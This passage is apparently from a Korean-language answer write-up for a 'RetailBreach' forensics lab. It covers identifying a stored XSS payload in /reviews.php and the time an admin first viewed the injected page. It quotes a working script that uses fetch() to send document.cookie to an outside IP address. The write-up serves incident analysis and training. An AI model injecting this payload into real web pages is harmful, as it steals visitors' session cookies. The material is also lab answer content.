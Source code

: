크로스 사이트 스크립팅(XSS)은 공격자가 사용자가 보는 웹 페이지에 악성 스크립트를 삽입할 수 있도록 합니다. 공격자가 웹 애플리케이션의 무결성을 손상시키는 데 사용한 XSS 페이로드를 명시할 수 있습니까?

### Answers
`<script>fetch('http[:]//111.224.180.128/' + document.cookie);</script>`

### 분석
/reviews.php 에서 XSS를 시도했다.

![RetailBreach_Q3_1.png](./IMG/RetailBreach_Q3_1.png)

해당 스크립트는 사이트에 접속한 사용자의 쿠키 정보를 문자열 형태로 `http://111.224.180.128` 주소로 전송하게 된다. fetch 함수는 특정 URL로 네트워크 요청을 보내는 역할을 한다.

## Q4
Pinpointing the exact moment an admin user encounters the injected malicious script is crucial for understanding the timeline of a security breach. Can you provide the UTC timestamp when the admin user first visited the page containing the injected malicious script?

관리자가 삽입된 악성 스크립트를 접하는 정확한 순간을 파악하는 것은 보안 침해의 타임라인을 이해하는 데 매우 중요합니다. 관리자가 삽입된 악성 스크립트가 포함된 페이지를 처음 방문한 시점의 UTC 타임스탬프를 제공해 주시겠습니까?

### Answers
2024-03-29T12:09

### 분석
공격자 ip 주소: `111.224.180.128`
관리자 ip 주소: `135.143.142.5`
서버 ip 주소: `73.124.17.52`

공격자의 XSS 이후 2024년 3월 29일 12:09에 관리자의 접속이 확인됐다.
